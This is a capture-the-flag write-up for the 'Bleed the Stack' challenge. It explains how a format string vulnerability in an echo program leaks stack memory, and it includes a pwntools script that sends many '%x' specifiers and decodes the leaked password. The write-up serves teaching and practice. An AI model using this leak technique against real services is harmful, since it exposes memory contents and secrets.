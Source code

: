 ```yaml
---
title: "Bleed the Stack"
description: "An amateur programmer decides that for his hello world program, he will echo whatever you say. Can you find his mistake?"
author: "0x0539"
date: "2023-05-16"
published: true
tags: ["capture the flag", "0x0539", "binex"]
---
```


# Bleed the Stack

> [challenge page available @ 0x539.net](https://0x0539.net/play/fangorn/bleedthestack)

```bash
pls@RUBY ~ > nc challenges.0x0539.net 7070
ADVANCED CHALLENGE :: BLEED THE STACK
*****************************

Test me! Enter your name and I'll print it back to you!
```

This challenge is based around a command-line program served over `netcat`. Given the challenge's name, our flag is probably hidden in this program's call stack, so I start off by sending `%x`, or a hexadecimal format string specifier.
This returned hex values, which means the program is likely vulnerable to a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack):

```bash
# ...

Test me! Enter your name and I'll print it back to you!
%x %x %x %x %x %x %x %x
40 f7f77620 1 0 1 20656854 73736170 64726f77
```

To confirm this, we can convert the hexadecimal values to ASCII, yielding the (malformed) string `@÷÷v [f7f77620] ehTssapdrow` (noting that `[f7f77620]` is invalid as ASCII; the information here is intended to be read by a CPU and so is not necessarily human-readable text).

The string `ehTssapdrow` stands out as some form of actual text - it's 'little-endian' ordering of the ascii string `The password`.

We can automate an exploit with the `pwntools` python module:
- open a connection to the `netcat` server,
- send loads of '%x' format specifiers when prompted for input,
- and finally parse and decode the response.

Noting that some bytearrays dont appear to have a valid ascii representation (such as the aformentioned `f7f77620`), we can handle any errors by just ignoring these as unnecessary.

```python
from pwn import *

context.log_level = 'CRITICAL'
host,port = 'challenges.0x0539.net', 7070
format_str = '%x ' * 299

def decode_bytes(dword):
    # change endianness to BE & decode
    try:
        decoded = bytes.fromhex(dword).decode('ascii')[::-1]
        return ''.join([ch for ch in decoded if 32 <= ord(ch) <= 126])
    # return unchanged array if it can't be decoded
    except UnicodeDecodeError:
        print(f'UnicodeDecodeError on bytearray \\'{dword}\\'.\\n')
        return(f' {dword} ')

def main():
    s = remote(host,port)
    s.recvuntil(b'you!\\n')
    s.sendline(format_str)
    raw_bytes = s.recvall().decode().strip()

    # print the values leaked from the call stack to stdout
    print(f'\\nbytearray:\\n{raw_bytes}\\n')
    dwords = raw_bytes.split(' ')

    # ensure each array is 4 bytes long
    dwords = [dword.zfill(8) for dword in dwords]
    decoded_dwords = ''.join([decode_bytes(dword) for dword in dwords])

    # print the decoded values
    print(f'leaked:\\n{decoded_dwords}')

main()
```

The initial leaked output from this program's call stack gives us the following raw hex:

```lua
40 f7f20620 1 0 1 20656854 73736170 64726f77 3a736920 6c5f4920 5f337630 6d723066 625f7434 733675 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```

Which our script will parse, decoding ASCII strings from their hexadecimal values:

```lua
@ f7f20620 The password is: [flag redacted] %x %x %x %x %x %x %x %x %x %
```


